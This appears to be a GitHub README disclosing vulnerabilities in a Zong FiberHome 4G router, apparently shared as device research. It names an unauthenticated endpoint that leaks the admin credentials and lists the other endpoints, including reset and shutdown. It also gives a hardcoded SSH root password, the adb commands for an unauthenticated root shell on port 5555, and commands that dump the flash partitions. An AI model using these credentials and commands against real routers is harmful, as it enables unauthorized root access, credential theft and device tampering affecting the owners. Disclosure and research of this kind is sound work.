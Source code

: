 
# Zong FiberHome 4G Device

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")

## Analysis
It gets more interesting once you do a portscan of the device. The portscan shows the following ports to be open
 - 22 - SSH
 - 53 - DNS
 - 80 - HTTP (Admin Panel)
 - 3020 - Unknown
 - 3021 - Unknown
 - 5555 - ADB

### Port 22
You can ssh into the device as `root` using password `oelinux123`

### Port 53 and 80
These ports are standard `DNS` and `HTTP` ports

#### Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

### Port 3020
Port 3020 is interesting once you connect to it it immediatly send the banner `ms_version:1` and then appears to send/receive nothing but if you keep connected it starts sending packets with `JSON` payloads "periodically" which appears to be 4-byte length prefixed, see the sample payloads below

```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength": 2
}
```
```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength_v1": [
		{
			"cdma_dbm": 0,
			"evdo_dbm": -125,
			"gsm_signal_strength": 0,
			"lte_rsrp": -112,
			"operator_type": 2,
			"tds_signal_strength": 0,
			"wcdma_signal_strength": 0
		}
	]
}
```

### Port 3021
This port lets you connect to it and keeps the connection open as long as you don't send anything but as soon as you send something it immediately disconnects, possibly expects somekind of pattern IMO(these kinds of ports were found on other routers too)

### Port 5555
This port runs an unauthenticated `adb daemon` so you can easily connect to it using `adb` and get shell access as follow
```
adb connect 192.168.8.1:5555
adb shell
```
you will get access as root user so you can pretty much do anything you want.

### Dumping Image
You can list the flash partitions using:
```
cat /proc/mtd

Output:

dev:    size   erasesize  name
mtd0: 00140000 00020000 "sbl"
mtd1: 00140000 00020000 "mibib"
mtd2: 00b00000 00020000 "efs2"
mtd3: 00360000 00020000 "sdi"
mtd4: 00360000 00020000 "tz"
mtd5: 000c0000 00020000 "mba"
mtd6: 00360000 00020000 "rpm"
mtd7: 031e0000 00020000 "qdsp"
mtd8: 000e0000 00020000 "appsbl"
mtd9: 00800000 00020000 "apps"
mtd10: 00040000 00020000 "scrub"
mtd11: 04a80000 00020000 "cache"
mtd12: 00160000 00020000 "misc"
mtd13: 00560000 00020000 "cdrom"
mtd14: 002e0000 00020000 "logo"
mtd15: 00800000 00020000 "recovery"
mtd16: 00100000 00020000 "fota"
mtd17: 01080000 00020000 "recoveryfs"
mtd18: 01080000 00020000 "system"
mtd19: 12e80000 00020000 "userdata"
```
you can just `cat` the device and pipe the data to a file e.g. `ssh root@192.168.8.1 "cat /dev/mtd18" > system.img` to get the system image

### Filesystem
Its just a linux filesystem, fun stuff can be found in `/usr/mifi/`. Some of the configurations are also stored in `sqlite 3` databases and can be found in `/usr/data/`

## Credits
Thanks to [IMExperts](https://github.com/IMExperts) for providing the `ssh` password as well as mentioning that port `5555` is running `adb`

